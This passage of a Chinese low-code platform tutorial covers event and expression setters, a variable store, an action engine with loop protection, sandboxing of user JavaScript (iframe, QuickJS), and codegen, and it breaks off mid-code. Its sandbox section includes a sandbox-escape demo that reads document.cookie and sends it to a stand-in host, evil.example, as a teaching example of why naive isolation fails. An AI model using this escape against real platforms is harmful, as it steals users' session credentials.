注意避免回环：画布点选 → store 更新 → 给画布发 `select` → 画布又上报 `selected`？不会死循环，因为画布上报 `selected` 的唯一入口是用户交互（click/hover），处理宿主下发的 `select` 消息时只改高亮 class、不再上报。**"消息由用户交互触发，协议命令不产生新上报"**——这条纪律适用于所有双向联动。

**常见坑（症状→根因→修法）**：症状——树里点选正常，但画布点选后树高亮不动。根因——树数据每次 schema 变化重建了 `id` 不稳定的树（比如用数组 index 当 id），react-arborist 受控 selection 找不到对应节点。修法——树 item 的 `id` 必须直接用 schema 的节点 id（本文代码如此），并把 `toTreeData` 的结果用 `useMemo([schema])` 缓存，避免每帧重建整棵树导致滚动位置丢失。

#### 路线 4：Setter 进阶——ExpressionSetter 与 EventSetter

**是什么**：第 3 章 Setter 体系渲染"普通属性"（字符串/数字/布尔/枚举），本章补上两类"活属性"：ExpressionSetter 编辑"值来自表达式"的属性（如输入框的 `value` 绑定 `$page.keyword`），EventSetter 编辑"事件触发后做什么"（动作链）。两者配置的结果分别写入节点的 `bindings` 与 `events` 字段（路线 1 的类型）。

**为什么需要**：静态 props 表达不了联动——"按钮的禁用状态取决于表单是否合法"必须引用变量；事件的语义是"做什么"而不是"是不是"，一个 onClick 可能要做三件事（校验→调接口→弹提示），普通 Setter 的"一个属性一个值"模型装不下，需要"一个事件 N 个动作"的列表模型。更关键的是，EventSetter 里能选什么动作、每个动作要配什么参数，必须由**动作类型注册表**驱动——注册表让"新增一种动作"变成注册一个对象，Setter UI 完全不用改（与第 1 章组件注册表同构，第 3 章自举思想再现）。

**怎么做（一）动作类型注册表**。

```ts
// engine/actionRegistry.ts
import type { ActionConfig } from '../schema/types';
import type { ActionContext } from './context';

export interface ActionDefinition<TConfig> {
  type: string;
  title: string;                          // EventSetter 下拉里显示的名字
  defaultConfig: () => TConfig;           // 选中该动作时的初始配置
  configSchema: FieldSchema[];            // 配置表单也是 schema！用第 3 章 Setter 渲染（自举）
  execute: (config: TConfig, ctx: ActionContext) => Promise<void>;
}

const registry = new Map<string, ActionDefinition<any>>();

export function registerAction<T extends ActionConfig>(def: ActionDefinition<any>) {
  registry.set(def.type, def);
}
export function getAction(type: string) {
  return registry.get(type);
}
export function listActions() {
  return [...registry.values()];          // EventSetter 的下拉选项来源
}
```

注册一批内置动作：

```ts
// engine/builtinActions.ts
import { registerAction } from './actionRegistry';

registerAction({
  type: 'openModal',
  title: '打开弹窗',
  defaultConfig: () => ({ modalId: '' }),
  configSchema: [
    { key: 'modalId', label: '弹窗', type: 'select', options: '=$modals' }, // 选项本身可以是表达式：取页面里所有弹窗节点
  ],
  async execute(config, ctx) {
    await ctx.ui.openModal(config.modalId);   // ui 能力由运行时注入，见路线 6 的 ActionContext
  },
});

registerAction({
  type: 'updateVariable',
  title: '更新变量',
  defaultConfig: () => ({ scope: 'page', name: '', valueExpr: "''" }),
  configSchema: [
    { key: 'scope', label: '作用域', type: 'radio', options: ['page', 'global'] },
    { key: 'name', label: '变量名', type: 'select', options: '=$pageVariables' },
    { key: 'valueExpr', label: '新值表达式', type: 'expression' },   // ← 表达式型属性用 ExpressionSetter
  ],
  async execute(config, ctx) {
    const value = ctx.evaluate(config.valueExpr);                    // 求值时机：执行时（见路线 5）
    ctx.variables.write(config.scope, config.name, value);           // 写变量会触发订阅者重算 bindings
  },
});
// callApi / link / runJs / emitEvent 同理注册；runJs 的 execute 走路线 7 的沙箱
```

**怎么做（二）EventSetter UI**。结构是两层：外层事件列表（这个物料支持哪些事件，来自物料元信息 `events` 声明），内层每事件一个动作链编辑器（从 `listActions()` 选动作 → 渲染该动作的 `configSchema` → 可增删可排序）。

```tsx
// setters/EventSetter.tsx
import { listActions } from '../engine/actionRegistry';
import type { EventBinding } from '../schema/types';
import { SetterForm } from './SetterForm'; // 第 3 章的通用 Setter 渲染器：输入 schema 输出表单

export function EventSetter({
  value, onChange, supportedEvents,
}: {
  value: EventBinding[];
  onChange: (next: EventBinding[]) => void;
  supportedEvents: string[];             // 物料声明，如 ['onClick', 'onDoubleClick']
}) {
  const actions = listActions();
  const setBinding = (event: string, next: EventBinding | null) => {
    const rest = value.filter((b) => b.event !== event);
    onChange(next ? [...rest, next].sort((a, b) => supportedEvents.indexOf(a.event) - supportedEvents.indexOf(b.event)) : rest);
  };
  return (
    <div>
      {supportedEvents.map((event) => {
        const binding = value.find((b) => b.event === event);
        return (
          <section key={event}>
            <header>
              <b>{event}</b>
              {!binding && (
                <button onClick={() => setBinding(event, { event, actions: [] })}>添加</button>
              )}
            </header>
            {binding && (
              <ol>
                {binding.actions.map((action, i) => {
                  const def = actions.find((a) => a.type === action.type)!;
                  return (
                    <li key={i}>
                      <select
                        value={action.type}
                        onChange={(e) => {
                          const type = e.target.value;
                          const next = actions.find((a) => a.type === type)!;
                          const actionList = [...binding.actions];
                          actionList[i] = { type, config: next.defaultConfig() } as typeof action;
                          setBinding(event, { ...binding, actions: actionList });
                        }}
                      >
                        {actions.map((a) => <option key={a.type} value={a.type}>{a.title}</option>)}
                      </select>
                      {/* 动作配置表单：又是"schema 渲染表单"的自举 */}
                      <SetterForm
                        schema={def.configSchema}
                        value={action.config}
                        onChange={(config) => {
                          const actionList = [...binding.actions];
                          actionList[i] = { ...action, config };
                          setBinding(event, { ...binding, actions: actionList });
                        }}
                      />
                    </li>
                  );
                })}
              </ol>
            )}
          </section>
        );
      })}
    </div>
  );
}
```

**怎么做（三）ExpressionSetter**。它的本质是"带校验与预览的受限代码输入框"：变量插入按钮把作用域树（`$page` / `$global` / `$ds` / `$event`）里的变量名插进光标处；输入防抖后用底座 1.4 求值器的 `parse` 做语法校验（只解析不求值，不会执行副作用）；预览区用当前变量池的值真实求值一次，让用户立刻看到结果。

```tsx
// setters/ExpressionSetter.tsx
import { useMemo, useState } from 'react';
import { parse, evaluate } from '../expr'; // 底座 1.4 的 mini 求值器：parse 只做词法+语法，evaluate 求值
import { useRuntimeStore } from '../runtime/store';

export function ExpressionSetter({
  value, onChange,
}: {
  value: string;
  onChange: (next: string) => void;
}) {
  const [text, setText] = useState(value);
  const context = useRuntimeStore((s) => s.exprContext); // { $page, $global, $ds, $event } 当前值

  const { error, preview } = useMemo(() => {
    if (!text.trim()) return { error: null, preview: undefined };
    try {
      const ast = parse(text);            // 语法错误在这里抛出（括号不配对、点号悬空……）
      return { error: null, preview: evaluate(ast, context) }; // 用真实变量池预览结果
    } catch (e) {
      return { error: (e as Error).message, preview: undefined };
    }
  }, [text, context]);

  return (
    <div>
      <input
        value={text}
        onChange={(e) => { setText(e.target.value); onChange(e.target.value); }}
        placeholder="例如 $page.keyword"
        style={{ borderColor: error ? 'red' : undefined }}
      />
      <div>
        <button onClick={() => { setText(`${text}$page.`); }}>$page.</button>
        <button onClick={() => { setText(`${text}$global.`); }}>$global.</button>
      </div>
      {error && <p style={{ color: 'red' }}>{error}</p>}
      {!error && text && <p>预览：{JSON.stringify(preview)}</p>}
    </div>
  );
}
```

**常见坑（症状→根因→修法）**：症状——用户把 `{{ }}` 双花括号写进表达式（Vue/amis 习惯），预览直接报错。根因——平台表达式语法是"裸表达式"（`$page.x`），与用户记忆里的模板语法冲突。修法——`parse` 前做一次宽容清洗：剥掉首尾 `{{ }}` 再解析（amis 的 `${}`、Vue 的 `{{}}` 都容忍这种写法），或在文档化校验失败信息里直接提示"不需要花括号"。

#### 路线 5：变量系统——页面级/全局级变量池与 bindings 求值

**是什么**：变量池是页面的运行时状态仓库，分两级——页面级（`$page`，每个页面一份，随 schema 声明 `pageVariables`）与全局级（`$global`，整个应用一份：登录用户、主题、租户信息，由宿主应用注入）。节点的 `bindings` 声明"哪个 prop 的值来自哪个表达式"，渲染时对表达式求值注入 props。

**为什么需要**：没有变量系统，跨组件联动只能靠事件动作硬连（"输入框 onChange 时调接口"里接口结果怎么给到卡片列表？）。变量池把"数据"从"交互"里抽出来：组件只声明"我读 `$ds['ds-users'].data`"，谁来写、何时写它一概不知——这样新增一个写入方（定时刷新、协同推送）不需要改任何读方。同时它给了 bindings 一个统一的求值上下文（第 1 章表达式引擎的 `$form` 思想放大到页面级）。

**怎么做（一）变量池 store**。

```ts
// runtime/variableStore.ts
import { create } from 'zustand';

interface VariableState {
  page: Record<string, unknown>;    // $page.*
  global: Record<string, unknown>;  // $global.*（由宿主应用初始化时灌入）
  ds: Record<string, { loading: boolean; data: unknown; error?: string }>; // $ds['id'].* 数据源状态
  write: (scope: 'page' | 'global', name: string, value: unknown) => void;
  setDs: (id: string, patch: Partial<VariableState['ds'][string]>) => void;
}

export const useRuntimeStore = create<VariableState>((set) => ({
  page: {},
  global: {},
  ds: {},
  write: (scope, name, value) =>
    set((s) => ({ [scope]: { ...s[scope], [name]: value } }) as Partial<VariableState>),
  setDs: (id, patch) =>
    set((s) => ({ ds: { ...s.ds, [id]: { ...s.ds[id], loading: false, data: undefined, ...patch } } })),
}));
```

页面挂载时按 `pageVariables` 的声明初始化 `page`（保证表达式求值时字段存在，哪怕是 `null`——这直接规避了第 2 章"undefined 初始值三态"的老坑）。

**怎么做（二）bindings 的求值时机**。这是变量系统的核心设计题，逐个场景分析：

1. **首渲染**：渲染器递归到节点时，对该节点全部 `bindings` 求值一次，结果与 `props` 合并（bindings 覆盖同名静态 props）。
2. **变量变化时**：谁重算？两种策略——*拉模型*（粗暴）：组件订阅整个变量池，任何变量变化都重求值；*推模型*（精准）：解析每个表达式引用了哪些变量（AST 里收集 `$page.foo` 形态的成员访问），组件只订阅自己表达式引用到的变量。小页面用拉模型足够（配合节点 memo，第 1 章 1.7），节点上千或表达式密集时推模型是性能的分水岭——这正是第 2 章"path 级订阅"思想在页面级的重演。
3. **事件执行时**：动作里的 `valueExpr`/`paramsExpr` 在**动作执行的那一刻**求值，绝不缓存——两次 `updateVariable` 之间变量可能已被前一个动作改过。
4. **dataSource 请求发出时**：`paramsExpr` 在每次请求前求值（轮询每轮重求），保证参数永远新鲜。

推模型的实现骨架：

```tsx
// runtime/useBoundProps.ts
import { useMemo } from 'react';
import { useShallow } from 'zustand/react/shallow';
import { parse, evaluate, collectDeps } from '../expr'; // collectDeps：遍历 AST 收集变量 token
import { useRuntimeStore } from './variableStore';
import type { SchemaNode } from '../schema/types';

export function useBoundProps(node: SchemaNode): Record<string, unknown> {
  const exprs = node.bindings ?? {};
  // 依赖是表达式的静态属性：解析一次，随 bindings 缓存
  const deps = useMemo(
    () => collectDeps(Object.values(exprs).map(parse)),
    [exprs],
  );
  // 只订阅依赖到的变量切片（zustand selector + useShallow 浅比较）
  const slice = useRuntimeStore(useShallow((s) => {
    const picked: Record<string, unknown> = {};
    for (const d of deps) picked[d] = resolveToken(s, d); // '$page.keyword' → s.page.keyword
    return picked;
  }));
  return useMemo(() => {
    const ctx = { $page: ..., $global: ..., $ds: ... }; // 由 slice 重建求值上下文
    return Object.fromEntries(Object.entries(exprs).map(([k, src]) => [k, evaluate(parse(src), ctx)]));
  }, [exprs, slice]);
}
```

渲染器里每个节点组件 `const bound = useBoundProps(node)`，然后 `<Widget {...node.props} {...bound} />`。

**常见坑（症状→根因→修法）**：症状——页面一打开，绑定 `'$ds["ds-users"].data'` 的卡片列表闪一下"空数据"再出内容。根因——bindings 求值发生在数据源请求 resolve 之前，`undefined` 被当成"空列表"渲染了。修法——数据源状态机必须含 `loading`，绑定时写 `'$ds["ds-users"].loading ? $ds["ds-users"].data ?? [] : "加载中"'`（表达式引擎支持三元与 `??`），物料侧对 `items === undefined` 渲染骨架屏而不是空态文案——"没数据"和"还没加载完"是两个语义。

#### 路线 6：动作引擎——action registry 与串行动作链

**是什么**：动作引擎是 `events` 的运行时。事件发生（用户点击 / 接口成功 / 变量变化）→ 引擎找到该节点该事件的绑定 → 按数组顺序逐个执行动作，前一个 `await` 完成才执行下一个 → 其中"触发别的事件"类动作（`emitEvent`、写变量触发的监听）会递归进入引擎，深度 +1。

**为什么需要**："动作链"给了配置人员顺序语义（先校验后提交），`await` 串行给了异步正确的默认行为（不写回调就能等接口返回再弹窗）。而"深度计数"是引擎的自我保护：协议允许 `emitEvent` 让 A 的事件动作去触发 B、B 再触发 A——表达能力换来了循环的可能，引擎必须有熔断。

**怎么做（一）执行上下文与引擎**。

```ts
// engine/context.ts —— 每次事件分发创建一个上下文，动作只能用它拿能力（最小权限）
export interface ActionContext {
  depth: number;                                  // 当前链深，emitEvent 时 +1
  evaluate: (expr: string) => unknown;            // 表达式求值（读变量池，路线 5）
  variables: {
    read: (scope: 'page' | 'global', name: string) => unknown;
    write: (scope: 'page' | 'global', name: string, value: unknown) => void;
  };
  apis: {
    call: (apiId: string, params?: unknown) => Promise<unknown>; // 唯一的接口出口，可统一加鉴权/埋点
  };
  ui: {
    openModal: (modalId: string) => Promise<void>;
    toast: (msg: string) => void;
    navigate: (url: string) => void;
  };
  emit: (nodeId: string, event: string, payload?: unknown) => Promise<void>; // 触发其他节点事件 → 走引擎
  log: (msg: string) => void;
}
```

```ts
// engine/dispatcher.ts
import { getAction } from './actionRegistry';
import type { ActionContext } from './context';
import type { PageSchema, SchemaNode } from '../schema/types';

export const MAX_ACTION_DEPTH = 32; // 熔断阈值：正常业务链 3~5 层封顶，32 只可能是环

function findNode(nodes: SchemaNode[], id: string): SchemaNode | undefined {
  for (const n of nodes) {
    if (n.id === id) return n;
    if (n.children) { const hit = findNode(n.children, id); if (hit) return hit; }
  }
  return undefined;
}

export class CycleGuardError extends Error {}

// 事件分发入口。depth 由调用方传入：用户交互触发为 0，emitEvent/变量监听触发为 parent+1
export async function dispatchEvent(
  schema: PageSchema,
  nodeId: string,
  eventName: string,
  payload: unknown,
  depth: number,
  makeContext: (depth: number, payload: unknown) => ActionContext,
): Promise<void> {
  if (depth > MAX_ACTION_DEPTH) {
    // 熔断：抛出带定位信息的错误，编辑器与运行时都能把这条链路画给用户看
    throw new CycleGuardError(
      `事件链超过最大深度 ${MAX_ACTION_DEPTH}，疑似循环触发：最近节点 ${nodeId} 事件 ${eventName}`,
    );
  }
  const node = findNode(schema.nodes, nodeId);
  const binding = node?.events?.find((e) => e.event === eventName);
  if (!binding) return; // 没绑定该事件：合法且常见，直接返回

  const ctx = makeContext(depth, payload);
  for (const action of binding.actions) {          // 串行动作链：前一个 await 完成（或抛错）才轮到下一个
    const def = getAction(action.type);
    if (!def) {
      ctx.log(`未知动作类型：${action.type}，已跳过`); // 协议演进期常见：旧页面引用已下线动作
      continue;
    }
    await def.execute(action.config, ctx);          // 抛错即中断整条链（callApi 失败要不要继续可升级为配置项）
  }
}
```

`emit` 的实现就是 `dispatchEvent(schema, nodeId, event, payload, ctx.depth + 1, makeContext)`——**深度在递归入口处 +1**，这是整个防死循环机制的关键一行：无论环从哪里进入（emitEvent 直连、写变量触发监听、接口回调再 emit），每层递归都让 depth 增加，环迟早越过阈值。

**怎么做（二）死循环的完整复现**。给出一动手写就会中的 schema——A 节点点击触发 B 的 `ping`，B 的 `ping` 触发 A 的 `pong`，A 的 `pong` 又触发 B 的 `ping`：

```json
{
  "nodes": [
    {
      "id": "btn",
      "type": "button",
      "props": { "text": "开始" },
      "events": [
        { "event": "onClick", "actions": [
          { "type": "emitEvent", "config": { "nodeId": "card", "event": "ping" } } ] },
        { "event": "pong", "actions": [
          { "type": "emitEvent", "config": { "nodeId": "card", "event": "ping" } } ] }
      ]
    },
    {
      "id": "card",
      "type": "card",
      "events": [
        { "event": "ping", "actions": [
          { "type": "emitEvent", "config": { "nodeId": "btn", "event": "pong" } } ] }
      ]
    }
  ]
}
```

用户点一下"开始"，链条是 `onClick → card.ping → btn.pong → card.ping → btn.pong → …` 无限循环。浏览器里会发生什么取决于引擎的异步形态：

- **同步递归形态**（`emit` 不经 `await` 直接调函数）：调用栈每层压入 `dispatchEvent` + `execute` 两个帧，几千层后抛 `RangeError: Maximum call stack size exceeded`——症状是"点一下立刻报错"，好诊断但难看。
- **微任务循环形态**（本文实现：`emitEvent` 的 execute 是 async，`await` 之间让出主线程）：调用栈不增长，但微任务队列永远排不空——**渲染帧永远轮不到执行**。症状是页面永久冻结（不报错、不崩溃、点什么都不响应），任务管理器里该标签页 CPU 占满、内存缓慢上涨；若环里有 `callApi`，还会看到 Network 面板里同一请求刷屏，直到浏览器/网关限流。这种"无声冻结"比栈溢出恶劣得多——用户只能关标签页。

`MAX_ACTION_DEPTH` 熔断对两种形态都生效：第 33 层入口抛出 `CycleGuardError`，外层（渲染器的事件入口）catch 后 toast 提示 + console 打印链路，页面毫秒级恢复。

**为什么"建依赖图检测环"更彻底但更贵**：理论上可以在**保存时**静态建图——节点为 `node.event`，动作为边（`btn.onClick → card.ping` 这条边由 `emitEvent` 配置静态可知），拓扑检测环，环存在就禁止保存并高亮"btn ↔ card 互触"。它的优点是**事前**（保存时）发现、能指出环上所有节点；贵在三点：其一，边的来源不总是静态的——`emitEvent` 的目标可以是表达式（`config.nodeId` 写成 `'$page.targetId'`），`updateVariable` 触发谁的 `onVarChange` 取决于运行时谁订阅了这个变量，`callApi` 的 `successActions` 是否执行取决于响应状态码——静态分析只能覆盖字面量写法，覆盖不了就漏报（漏报比运行时熔断更危险，因为它给人"已检查"的错觉）。其二，每次 schema 编辑都要重算图（或做增量维护），编辑器多一块长期能耗。其三，环不一定是错的——"轮询刷新"类页面可能故意靠变量事件自激（配合间隔节流）。所以工程上的成熟组合是：**运行时深度上限必做（兜底一切动态环），保存时对"字面量可见"的环做 lint 提示（能抓 80% 的手误），两者互补**。这与第 2 章"联动循环依赖→单轮求值或依赖图"是同一个问题在两个协议层的投影。

**常见坑（症状→根因→修法）**：症状——动作链里 `callApi` 后面的 `openModal` 不执行。根因——`callApi` 抛错（4xx/5xx 被封装成 reject），引擎"抛错即中断"把后面的动作全吞了，而用户没有任何感知。修法——引擎在 catch 里 `ctx.log` + toast 失败动作与原因；`callApi` 动作定义里加 `failActions?: ActionConfig[]` 配置，让"失败分支"显式化（amis 的动作体系同样区分成功/失败分支）。

#### 路线 7：安全执行用户自定义 JS（重点）

**是什么**：平台允许配置人员在 `runJs` 动作里写一小段自定义脚本（"把列表按距离排序"这类个性化逻辑）。这段代码由平台**代替用户执行**，因此平台必须保证它拿不到不该拿的东西：宿主应用的登录态、其他页面的数据、任意外部域名请求。本路线回答"怎么执行任意 JS 才安全"。

**为什么需要**：低代码平台的用户脚本与"开发者写的代码"是两个信任等级。开发者代码经过 code review 与发布流程；用户脚本是**运行时提交的字符串**，任何一个账号被钓鱼后，其脚本就等于拿到了该登录态下的一切——如果没有隔离，脚本可以 `fetch('/api/admin/users', { method: 'DELETE' })`。这不是假设：所有面向公众的低代码/SaaS 平台（自动化平台的自定义步骤、表单平台的计算字段）都把这个当一等安全问题。

**怎么做（零）先证明 `new Function` 不安全——逃逸演示**。常见的第一版实现是这样"遮住危险全局"：

```ts
// unsafe/runJs.ts —— 错误示范：变量遮蔽式沙箱
const DANGEROUS = ['window', 'globalThis', 'self', 'document', 'fetch',
  'XMLHttpRequest', 'localStorage', 'sessionStorage', 'eval', 'Function'];

export function runUserJsNaive(code: string): unknown {
  // 用同名参数把危险全局"遮蔽"成 undefined，再包一层严格模式
  const params = DANGEROUS.join(', ');
  const fn = new Function(params, `"use strict"; return (function(){ ${code} })()`);
  return fn(...DANGEROUS.map(() => undefined));
}
```

看似 `fetch`、`document` 都变成了 `undefined`，但下面这段"用户代码"两行就能击穿：

```ts
// 用户提交的代码 —— 逃逸成功
const F = ({}).constructor.constructor;        // Object.prototype.constructor → Function 构造器
const realFetch = F('return fetch')();          // Function 构造器创建的函数在真实全局作用域求值
const cookie = F('return document.cookie')();   // 拿到宿主域名下的 cookie
realFetch('https://evil.example/steal?c=' + encodeURIComponent(String(cookie)));
```

原理要讲透：**词法遮蔽只能挡"名字"，挡不住"引用图"**。JS 里几乎每个对象都通过 `constructor`（追溯到 `Object.prototype`）连着 `Function` 构造器，而 `Function` 构造器永远在**当前领域（realm）的全局作用域**里创建函数——只要用户代码能碰到任何一个内建对象（哪怕 `{}` 字面量），就能重建对全部全局对象的访问。换掉 `Function` 这个名字也没用：`[].map.constructor`、`(()=>{}).constructor`、`Object.getPrototypeOf(async function(){}).constructor` 全部通向它。结论：**隔离必须发生在"领域级别"**——让用户代码运行在一个拥有不同全局对象、不同原型链的环境里，它那里的 `Function` 只能造出"那个世界"的函数。iframe（独立 browsing context）与 QuickJS（独立解释器实例）就是两种领域隔离。

**怎么做（一）iframe sandbox 方案**。核心配置：`<iframe sandbox="allow-scripts">`——**只**给脚本权限，不给 `allow-same-origin`。浏览器会让它运行在一个 opaque origin（不透明源）里：读宿主 cookie、localStorage、父页面 DOM 一律抛 `SecurityError`；它里面的 `Function` 构造器只能访问"它自己那个空空荡荡的全局"。

宿主侧（创建隐藏 iframe、发任务、收结果）：

```tsx
// sandbox/IframeSandbox.tsx
import { useCallback, useEffect, useRef } from 'react';

interface RunResult { id: string; ok: boolean; result?: unknown; error?: string }

export function IframeSandbox() {
  const iframeRef = useRef<HTMLIFrameElement>(null);
  const pending = useRef(new Map<string, (r: RunResult) => void>());

  useEffect(() => {
    const onMessage = (e: MessageEvent) => {
      // opaque origin 下 e.origin 是 'null'，唯一可靠校验是窗口引用比对
      if (e.source !== iframeRef.current?.contentWindow) return;
      const msg = e.data as RunResult;
      pending.current.get(msg.id)?.(msg);
      pending.current.delete(msg.id);
    };
    window.addEventListener('message', onMessage);
    return () => window.removeEventListener('message', onMessage);
  }, []);

  const run = useCallback((code: string, timeoutMs = 2000): Promise<RunResult> => {
    const id = crypto.randomUUID();
    return new Promise((resolve, reject) => {
      const timer = setTimeout(
        () => reject(new Error('脚本执行超时')), // 注意：超时只能“放弃等待”，见正文“同线程陷阱”
        timeoutMs,
      );
      pending.current.set(id, (msg) => { clearTimeout(timer); resolve(msg); });
      iframeRef.current?.contentWindow?.postMessage({ id, code }, '*');
    });
  }, []);

  return (
    <iframe
      ref={iframeRef}
      src="/js-sandbox.html"
      sandbox="allow-scripts"          // 关键：没有 allow-same-origin → opaque origin
      style={{ display: 'none' }}
      title="js-sandbox"
    />
  );
}
```

沙箱页 `/js-sandbox.html`（静态资源，不依赖任何业务代码）：

```text
<!doctype html>
<html>
<body>
<script>
  // 本页运行于 sandbox="allow-scripts"（无 allow-same-origin）：
  // - opaque origin：读父页面 DOM / cookie / localStorage 抛 SecurityError
  // - 全局对象干净：这里的 Function 构造器只能看到“这个空世界”
  window.addEventListener('message', function (e) {
    var msg = e.data || {};
    if (typeof msg.id !== 'string' || typeof msg.code !== 'string') return;
    function reply(payload) {
      try { e.source.postMessage(Object.assign({ id: msg.id }, payload), e.origin); }
      catch (err) { /* 结果不可结构化克隆时兜底成字符串 */ 
        e.source.postMessage({ id: msg.id, ok: true, result: String(payload.result) }, e.origin); }
    }
    try {
      var fn = new Function('"use strict"; return (async function(){' + msg.code + '})()');
      Promise.resolve(fn()).then(
        function (r) { reply({ ok: true, result: r }); },
        function (err) { reply({ ok: false, error: String(err) }); }
      );
    } catch (err) {
      reply({ ok: false, error: String(err) });
    }
  });
</script>
</body>
</html>
```

**同线程陷阱（本方案最大短板）**：sandbox 隔离的是**权限**，不是**计算**。iframe 与宿主通常共享同一个事件循环线程——用户脚本写个 `while(true){}`，整个编辑器跟着冻结，`setTimeout` 的超时回调也永远没机会执行（线程被占死了），唯一的恢复手段是用户手动刷新页面。缓解办法：脚本执行改成"每次任务销毁重建 iframe"（防状态累积），再叠加**静态检查**——用 acorn/esprima 把代码 parse 成 AST，白名单放行节点类型（禁止 `WhileStatement`/`ForStatement`？会误伤正常循环，业界一般只做危险成员访问黑名单如 `document.cookie`、`top`、`parent`）。静态检查是减少恶意/事故的过滤器，**不能当唯一的墙**（AST 可被多种写法绕过，如 `obj['cook'+'ie']`）。

**怎么做（二）quickjs-emscripten 方案**。QuickJS 是一个轻量 JS 引擎，quickjs-emscripten 把它编译成 WASM：用户代码在一个与浏览器完全无关的解释器实例里跑——那里没有 DOM、没有 fetch、没有 cookie，全局对象是引擎新建的空白全局，你注入什么它才有什么。领域隔离做到了极致，且天然支持资源限额与硬终止。

```ts
// sandbox/quickjs.ts
import { getQuickJS } from 'quickjs-emscripten';

export interface QjsResult { ok: boolean; result?: unknown; error?: string }

let quickjsPromise: Promise<Awaited<ReturnType<typeof getQuickJS>>> | null = null;
// wasm 体积不小（数百 KB 级），按需懒加载；具体 API 名以所装版本 README 为准
function ensureEngine() {
  quickjsPromise ??= getQuickJS();
  return quickjsPromise;
}

export async function runInQuickJS(code: string, timeoutMs = 100): Promise<QjsResult> {
  const QuickJS = await ensureEngine();
  const vm = QuickJS.createVm();
  const startAt = Date.now();
  // 中断钩子：引擎在每段字节码执行间隙轮询，返回 true 即抛 InternalError 中断
  // 这就是“能打断死循环”的关键——iframe 方案做不到这一点
  vm.setInterruptHandler(() => Date.now() - startAt > timeoutMs);
  try {
    const result = vm.evalCode(code);
    if (result.error) {
      // QuickJS 内的异常值也要按句柄 dump 成 JS 值并释放，否则内存泄漏
      const dumped = vm.dump(result.error);
      result.error.dispose();
      return { ok: false, error: String(dumped) };
    }
    const value = vm.dump(result.value);
    result.value.dispose();
    return { ok: true, result: value };
  } finally {
    vm.dispose(); // 每次任务用完即毁：状态零残留，也堵住“上一次执行污染下一次”
  }
}
```

工程化要点两条。第一，**把它放进 Web Worker**：WASM 解释器本身跑在主线程也会占主线程，放进 Worker 后连"解释器内部死循环"都只占 Worker 线程，宿主可随时 `worker.terminate()` 硬杀——这是唯一真正"杀得死"的终止路径（interruptHandler 依赖引擎轮询，遇到引擎级 bug 时是第二道保险）。第二，**桥接 API 全靠显式注入**：想让用户脚本"发请求"，不是给他 `fetch`，而是用 `vm.newFunction` 包一个白名单桥（`vm.getHostContext` 相关注入 API 以官方文档为准），桥内部做参数校验、域名白名单、频率限制——权限模型从"藏起来"变成"按需给"，安全边界清晰可审计。

**怎么做（三）四方案对比与选型**。

| 方案 | 隔离了什么 | 没隔离什么 | 死循环处理 | 通信 | 成本 | 适用面 |
|---|---|---|---|---|---|---|
| `new Function` + 变量遮蔽 | 仅遮名字，可被构造器链逃逸 | 一切 | 直接卡死页面 | 同步调用，最顺手 | 零 | 仅"作者可信"的内部场景（脚本作者是内部开发者，且经过 code review），或作为 AST 白名单检查后的执行器 |
| Web Worker（无沙箱属性，靠无 DOM 环境） | 计算（独立线程）；DOM 天然没有 | 主线程之外的 API（postMessage 任意目标、importScripts 拉外部脚本） | `terminate()` 硬杀成功 | postMessage 异步 | 低 | 纯计算型脚本（排序/汇总/格式化），作者半可信 |
| iframe sandbox（allow-scripts） | DOM/cookie/storage 权限（opaque origin） | 计算资源（同线程） | 检测得到、杀不掉，只能刷新 | postMessage 异步、结果须可结构化克隆 | 低（一个隐藏 iframe） | 脚本需要"类浏览器"环境或要复用现成页面做执行器 |
| quickjs-emscripten（+ Worker） | 一切：独立解释器、空白全局、注入式 API | —（按定义没有更多可泄露） | `setInterruptHandler` 中断 + 内存上限 + Worker terminate 三重保险 | 桥函数注入 / 消息 | wasm 数百 KB 起步 + 每次执行开销 | 多租户 SaaS、开放市场、安全等级最高的场景 |

选型结论可以直接背下来：**信任分层决定技术分层**——脚本作者是自己人（内部开发者、通过 review 的插件）用 Worker 或裸 `new Function`；平台是私有部署、用户是企业内员工，iframe sandbox 够用；平台是公有 SaaS、脚本来自任意租户，上 quickjs-emscripten 并放进 Worker。三者不互斥，大型平台常常"quickjs 跑表达式、iframe 跑整段页面逻辑"并存。

**常见坑（症状→根因→修法）**：症状——沙箱方案上线后，运营反馈"脚本能跑但拿不到想要的数据"。根因——领域隔离是双向的：沙箱里的空白全局**也没有**平台变量池，`$page` 之类上下文不会自然存在。修法——在三个方案里统一加"上下文注入"约定：宿主把变量池的一个**快照**（或带校验的读桥）随任务传入（iframe：postMessage 的 payload；quickjs：任务前 `vm.evalCode` 预置 `var __ctx = {...}`），脚本里用 `__ctx.page.keyword` 读——只注入快照与白名单读方法，不注入任何写通道与函数引用，隔离边界不被扩大。

#### 路线 8：出码 vs 渲染（Schwarma 架构取舍）

**是什么**：schema 变成可运行页面有两条路。**运行时解释**（渲染路线，amis 的路线）：页面加载引擎，引擎读 schema 动态递归渲染——schema 是运行时的数据。**出码**（编译路线）：构建期把 schema 转换成真实 React 源码（`.tsx` 文件），走正常前端构建发布——schema 是构建期的中间产物。

**为什么需要取舍**：两条路线在"平台要解决的问题"上各有死穴。运行时解释的页面永远背着引擎（amis 全量包不小）、调试断点落在引擎深处（栈里全是 renderer 内部帧）；出码的页面每次改动都要走构建流水线，"改个文案等五分钟发布"直接杀死低代码的核心价值。没有全能解，只有按业务定舍。

**怎么做（一）理解 amis 的运行时解释**。amis 的做法：页面 JSON（根节点 `type: 'page'`）交给 amis 的渲染函数，它按 `type` 查渲染器注册表递归渲染；表达式用 `${xxx}` 语法在运行时求值；事件动作（`onEvent`/actions）由引擎的动作系统执行。所有能力（组件、动作、表达式函数）都注册在引擎里，页面 JSON 只是"驱动数据"。这套架构让"存 JSON 即发布"成为可能——低代码平台编辑器的"保存"按钮可以直接生效，预览即所得。代价：引擎必须全量在场（或做复杂的按需加载），渲染路径多一层"schema → 组件树"的解释，调试时调用栈隔着引擎。

**怎么做（二）出码器长什么样**。出码本质是"schema → 代码字符串"的递归打印器，配一层模板工程（package.json、入口文件、构建配置）：

```ts
// codegen/nodeToJsx.ts —— 把节点树打印成 JSX（示意：覆盖类型需按物料协议补全）
import type { SchemaNode } from '../schema/types';

function attrValue(v: unknown): string {
  if (typeof v === 'string') return JSON.stringify(v);
  return `{${JSON.stringify(v)}}`; // 数字/布尔等：字面量
}

export function nodeToJsx(node: SchemaNode, indent = ''): string {
  const styleAttr = node.style ? ` style={${JSON.stringify(node.style)}}` : '';
  const propAttrs = Object.entries(node.props ?? {})
